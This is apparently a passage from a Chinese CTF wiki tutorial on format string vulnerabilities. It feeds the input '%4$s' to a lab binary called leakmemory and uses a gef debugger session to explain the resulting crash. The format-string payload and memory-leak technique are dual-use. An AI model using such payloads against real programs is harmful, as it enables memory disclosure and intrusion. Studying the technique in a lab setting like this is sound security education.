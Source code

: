 由0x41414141处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第5个参数，但是是格式化字符串的第4个参数。我们可以来测试一下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%4$s
00000001.22222222.ffffffff.%4$s
[1]    61439 segmentation fault (core dumped)  ./leakmemory
```

可以看出，我们的程序崩溃了，为什么呢？这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，，所以程序就崩溃了。具体的可以参考下面的调试。

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd20  →  "%4$s"
0xffffcd14│+0x08: 0xffffcd20  →  "%4$s"
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: "%4$s"	 ← $eax
0xffffcd24│+0x18: 0xffffce00  →  0x00000000
0xffffcd28│+0x1c: 0x000000e0
───────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7e44670 → Name: __printf(format=0xffffcd20 "%4$s")
[#1] 0x80484ce → Name: main()
────────────────────────────────────────────────────────────────────────────────
gef➤  help x/
Examine memory: x/FMT ADDRESS.
ADDRESS is an expression for the memory address to examine.
FMT is a repeat count followed by a format letter and a size letter.
Format letters are o(octal), x(hex), d(decimal), u(unsigned decimal),
  t(binary), f(float), a(address), i(instruction), c(char), s(string)
  and z(hex, zero padded on the left).
Size letters are b(byte), h(halfword), w(word), g(giant, 8 bytes).
The specified number of objects of the specified size are printed
according to the format.

Defaults for format and size letters are those previously used.
Default count is 1.  Default address is following last thing printed
with this command or "print".
gef➤  x/x 0xffffcd20
0xffffcd20:	0x73243425
gef➤  vmmap
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
0x08049000 0x0804a000 0x00000000 r-- /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
0x0804a000 0x0804b000 0x00001000 rw- /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
0x0804b000 0x0806c000 0x00000000 rw- [heap]
0xf7dfb000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xf7fab000 0xf7fad000 0x001af000 r-- /lib/i386-linux-gnu/libc-2.23.so
0xf7fad000 0xf7fae000 0x001b1000 rw- /lib/i386-linux-gnu/libc-2.23.so
0xf7fae000 0xf7fb1000 0x00000000 rw-
0xf7fd3000 0xf7fd5000 0x00000000 rw-
0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
```